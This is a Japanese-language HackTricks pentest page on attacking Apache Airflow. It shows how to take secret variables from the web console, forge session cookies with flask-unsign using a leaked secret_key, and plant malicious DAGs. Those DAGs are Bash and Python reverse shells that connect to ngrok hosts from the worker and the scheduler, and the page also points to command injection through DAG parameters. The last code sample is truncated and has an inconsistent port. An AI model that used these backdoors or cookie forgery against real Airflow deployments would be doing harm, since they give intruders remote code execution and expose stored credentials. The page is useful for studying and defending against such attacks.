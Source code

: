# Apache Airflow Security

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### 基本情報

[**Apache Airflow**](https://airflow.apache.org) は、**データパイプラインやワークフローのオーケストレーションとスケジューリングのためのプラットフォーム**として機能します。データパイプラインの文脈における「オーケストレーション」という用語は、さまざまなソースからの複雑なデータワークフローを整理、調整、管理するプロセスを指します。これらのオーケストレーションされたデータパイプラインの主な目的は、処理された消費可能なデータセットを提供することです。これらのデータセットは、ビジネスインテリジェンスツール、データサイエンス、機械学習モデルなど、さまざまなアプリケーションで広く利用されており、ビッグデータアプリケーションの機能にとって基盤となっています。

基本的に、Apache Airflowは、**何か（イベント、cron）が発生したときにコードの実行をスケジュールすることを可能にします**。

### ローカルラボ

#### Docker-Compose

[**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) からの**docker-compose設定ファイルを使用して、完全なapache airflow docker環境を起動できます**。（MacOSを使用している場合は、docker VMに少なくとも6GBのRAMを割り当てることを確認してください）。

#### Minikube

**apache airflowを実行する簡単な方法の一つは、**minikube**で実行することです**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflowはその設定に**機密情報**を保存する可能性があり、または弱い設定が存在することがあります：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

Airflowを攻撃する前に、**権限の仕組み**を理解する必要があります：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacks

#### Web Console Enumeration

**ウェブコンソールにアクセス**できる場合、以下の情報の一部またはすべてにアクセスできる可能性があります：

* **変数**（カスタムの機密情報がここに保存される可能性があります）
* **接続**（カスタムの機密情報がここに保存される可能性があります）
* `http://<airflow>/connection/list/`でアクセス
* [**設定**](./#airflow-configuration)（**`secret_key`**やパスワードなどの機密情報がここに保存される可能性があります）
* **ユーザーと役割のリスト**
* **各DAGのコード**（興味深い情報が含まれている可能性があります）

#### Retrieve Variables Values

変数はAirflowに保存され、**DAG**がその値に**アクセス**できるようになります。他のプラットフォームの秘密に似ています。**十分な権限**があれば、`http://<airflow>/variable/list/`のGUIでアクセスできます。\
AirflowはデフォルトでGUIに変数の値を表示しますが、[**これ**](https://marclamberti.com/blog/variables-with-apache-airflow/)によると、**値**が**アスタリスク**として表示される**変数のリスト**を設定することが可能です。

![](<../../.gitbook/assets/image (164).png>)

しかし、これらの**値**は**CLI**を介して（DBアクセスが必要）、**任意のDAG**の実行、**API**を介して変数エンドポイントにアクセスすること（APIを有効にする必要があります）、さらには**GUI自体**からも**取得**できます！\
GUIからこれらの値にアクセスするには、アクセスしたい**変数を選択**し、**アクション -> エクスポート**をクリックします。\
別の方法は、**検索フィルタリング**を使用して**隠された値**に対して**ブルートフォース**を実行し、取得することです：

![](<../../.gitbook/assets/image (152).png>)

#### Privilege Escalation

**`expose_config`**設定が**True**に設定されている場合、**ユーザー役割**以上の権限を持つ者は**ウェブで設定を読む**ことができます。この設定には**`secret_key`**が含まれており、これにより有効なユーザーは**他のユーザーアカウントを偽装するための独自の署名付きクッキーを作成**できます。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG バックドア (Airflow ワーカーにおける RCE)

もし **DAG が保存されている場所に書き込みアクセス** がある場合、**逆シェルを送信する DAG を作成する** ことができます。\
この逆シェルは **airflow ワーカーコンテナ内** で実行されることに注意してください：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG バックドア (Airflow スケジューラにおける RCE)

コードの**ルートで実行されるように設定**した場合、執筆時点では、それはDAGのフォルダに配置してから数秒後に**スケジューラによって実行されます**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAGの作成

もし**DAGクラスター内のマシンを侵害することができれば**、`dags/`フォルダーに新しい**DAGスクリプト**を作成でき、それらは**DAGクラスター内の他のマシンに複製されます**。

#### DAGコードインジェクション

GUIからDAGを実行すると、**引数**を渡すことができます。\
したがって、DAGが適切にコーディングされていない場合、**コマンドインジェクションに対して脆弱である可能性があります。**\
これがこのCVEで起こったことです: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

**DAG内のコマンドインジェクションを探し始めるために知っておくべきこと**は、**パラメータ**が**`dag_run.conf.get("param_name")`**というコードで**アクセスされる**ということです。

さらに、同じ脆弱性が**変数**にも発生する可能性があります（十分な権限があれば、GUIで**変数の値を制御できる**ことに注意してください）。変数は**次のようにアクセスされます**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
もしそれらが例えばbashコマンドの中で使用されると、コマンドインジェクションを実行することができます。

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}
